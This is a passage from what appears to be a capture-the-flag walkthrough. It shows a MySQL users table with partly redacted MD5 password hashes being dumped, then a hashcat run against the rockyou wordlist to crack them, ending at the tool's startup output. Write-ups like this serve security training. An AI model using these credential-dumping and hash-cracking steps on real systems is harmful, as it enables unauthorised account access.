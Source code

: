 ```highlight

Database changed
mysql> show tables;
show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de2REDACTED      |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df05REDACTED      |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

Found some users, the passwords look like md5 hashes so I created a file on my attack VM with both hashes in and then ran hashcat to crack them.

```highlight
└──╼ $hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt --force                                         
hashcat (v5.1.0) starting...                                                                               
                                                                                                           
OpenCL Platform #1: The pocl project                                                                       
====================================                                                                       
* Device #1: pthread-Intel(R) Core(TM) i5-7500 CPU @ 3.40GHz, 512/1472 MB allocatable, 2MCU                
                                                                                                           
Hashes: 2 digests; 2 unique digests, 1 unique salts                                                        
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates                               
Rules: 1                                                                                                   
                                                                                                           
Applicable optimizers:                                                                                     
* Zero-Byte                                                                                                
* Early-Skip                                                                                               
* Not-Salted                                                                                               
* Not-Iterated                                                                                             
* Single-Salt                                                                                              
* Raw-Hash                                                                                                 
                                                                                                           
Minimum password length supported by kernel: 0                                                             
Maximum password length supported by kernel: 256                                                           
```